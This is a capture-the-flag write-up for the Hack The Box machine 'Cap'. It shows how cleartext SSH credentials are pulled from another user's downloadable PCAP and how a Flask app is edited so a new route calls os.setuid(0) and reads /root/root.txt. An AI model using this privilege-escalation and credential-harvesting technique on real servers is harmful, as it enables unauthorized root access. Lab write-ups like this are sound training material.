





# 📦 HTB - Cap


> Simple easy box, perfect to warmup before the FIC 2021 and get more confidence in 1337 h4ck1n9

## TL;DR

Find PCAP file on server, get SSH credentials, execute code as root with Python.

## Footholds

I did not even use `nmap` here, as we had a web server serving on port `tcp:80`. This website looked like this:



It seems to be a security dashboard for a server, we don't have any info about that. We have multiple endpoints on the server :

* `/capture`: redirects to `/data/{id}` after loading
* `/data/{id}`: we can download `{id}.pcap` by clicking a button
* `/ip`: get a `netstat` output

What can we do with that?

## User

I got to download the file `11.pcap`, and got nothing in it. I recognized that all my interactions with the server were logged in this PCAP, which is odd, I tought the server was serving a particular PCAP.

After playing again with the `/capture` endpoint, I figured out that the `/data/{id}` correspond to a specific user or IP. So I checked `/data/0` and got the following data:



And guess what? Yes we can see credentials in cleartext here:



So we can SSH to the machine with those.

## Root

### Source code

The server was running in `/var/www/html/app.py` which is a Flask server. the user `nathan` have `rw` rights on it so I checked the source code:

```py
import os
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import tempfile
import dpkt
from werkzeug.utils import append_slash_redirect

# [...]

app = Flask(__name__)

@app.route("/")
def index():
        return render_template("index.html")

@app.route("/capture")
@limiter.limit("10 per minute")
def capture():
        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))

@app.route("/ip")
def ifconfig():
	d = os.popen("ifconfig").read().strip()
	print(d)
	return render_template("index.html", rawtext=d)

@app.route("/data/<id>")
def data_id(id):
        try:
                id = int(id)
        except:
                return redirect("/")
        try:
                data = process_pcap(os.path.join(app.root_path, "upload", str(id) + ".pcap"))
                path = str(id) + ".pcap"
                return render_template("index.html", data=data, path=path)
        except Exception as e:
                print(e)
                return redirect("/")

# [...]

if __name__ == "__main__":
        app.run("0.0.0.0", 80, debug=True)
```

I removed some code for readability but you get the idea. The important stuff is the `os.setuid(0)` part. If you want the complete code, [check it here](app.py).

### Exploit

As you can expect here we can execute code as root with the `os.setuid(0)` line. So I just edited this `app.py` file and added one route:

```py
@app.route("/test")
def test():
    os.setuid(0)
    data = os.popen("cat /root/root.txt").read()
    return render_template("index.html", data=data)

# opened a new port on the machine
if __name__ == "__main__":
    app.run("0.0.0.0", 65000, debug=True)
```

Then I started the server in the SSH connection: `nathan@cap: python3 app.py`, and connected on the server on my local machine with `firefox http://cap.htb:65000/test`.



And voilà.



